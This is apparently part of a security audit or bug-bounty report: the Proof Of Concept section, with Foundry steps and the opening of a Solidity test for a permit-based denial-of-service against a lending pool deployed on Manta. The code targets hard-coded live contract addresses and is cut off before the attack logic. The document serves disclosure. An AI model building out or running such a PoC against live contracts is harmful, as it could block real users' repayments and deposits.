 

## Proof Of Concept

**Steps to Run using Foundry:**
- Install Foundry (https://book.getfoundry.sh/getting-started/installation)
- Open terminal and run `forge init poc` and `cd poc`
- Paste following foundry code in `PoC.t.sol`
- Run using `forge test -vv`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/interfaces/IERC20.sol";

interface IPool {
    function repayWithPermit(
        address asset,
        uint256 amount,
        uint256 interestRateMode,
        address onBehalfOf,
        uint256 deadline,
        uint8 permitV,
        bytes32 permitR,
        bytes32 permitS
    ) external returns (uint256);
    function supplyWithPermit(
        address asset,
        uint256 amount,
        address onBehalfOf,
        uint16 referralCode,
        uint256 deadline,
        uint8 permitV,
        bytes32 permitR,
        bytes32 permitS
    ) external;
}

interface IAToken {
    function DOMAIN_SEPARATOR() external view returns (bytes32);
    function PERMIT_TYPEHASH() external view returns (bytes32);
    function permit(
        address owner,
        address spender,
        uint256 value,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) external;
}

contract POC is Test {
    IPool pool = IPool(0x2f9bB73a8e98793e26Cb2F6C4ad037BDf1C6B269);
    
    function testDoSWithPermitPOC() public {
        vm.createSelectFork('https://1rpc.io/manta');
        vm.label(address(pool), "Pool");

        address aToken_addr = 0xB4FFEf15daf4C02787bC5332580b838cE39805f5;
        vm.label(aToken_addr, "aToken");
        
```